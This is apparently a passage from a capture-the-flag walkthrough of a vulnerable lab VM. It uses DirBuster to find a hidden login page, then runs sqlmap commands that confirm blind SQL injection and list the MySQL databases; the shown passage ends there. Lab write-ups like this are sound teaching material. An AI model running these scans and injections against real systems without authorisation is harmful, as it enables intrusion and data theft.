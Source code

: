 Revisiting the main wordpress site there is something a bit unusual.

![image](https://i.imgur.com/2ddRfdF.png)

Did I miss something? Did I get done by a Jedi mindtrick? Let's see. I'll head back to the main site and try and find some other pages with _DirBuster_.

This is how I set it up

<img src="https://i.imgur.com/auVPaoO.png" alt="image" width="600" />

Using this list I got lucky and received two interesting hits after short while

<img src="https://i.imgur.com/l647X5u.png" alt="image" width="600" />

I've decided to hold back on on the `phpmyadmin` and investigate the `login.php` first. This is what lies at the end of that URL

![image](https://i.imgur.com/c8aSx4n.png)

I could just start attacking this with various SQLi strings, but the beauty of attacking a virtual machine is that I can use tools without the fear of breaking someone else's stuff. Roll out `sqlmap` and let's see what we can find:

```sourceCode
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit"

<snip>

POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y

<snip>

POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y

<snip>

[12:17:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.11
```

I've removed some of the output for clarity, but I can see that there's possibility of a blind SQL injection for both `user` and `password` and that it's a MySQL databse. Great. We can carry on using `sqlmap` to try and discover what tables there are and if we can find any useful information.

First I'll get a list of databases on the system. This process takes a little while, so when it asks "_do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? \[Y/n\]_" answer _YES_. It will be done quicker.

```sourceCode
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dbs

<snip>

[12:20:19] [INFO] fetching database names
[12:20:19] [INFO] fetching number of databases
[12:20:19] [INFO] retrieved: 7
[12:20:21] [INFO] retrieved: information_schema
[12:21:36] [INFO] retrieved: login
[12:21:59] [INFO] retrieved: mysql
[12:22:20] [INFO] retrieved: performance_schema
[12:23:33] [INFO] retrieved: phpmyadmin
[12:24:18] [INFO] retrieved: users
[12:24:43] [INFO] retrieved: wordpress8080
available databases [7]:
```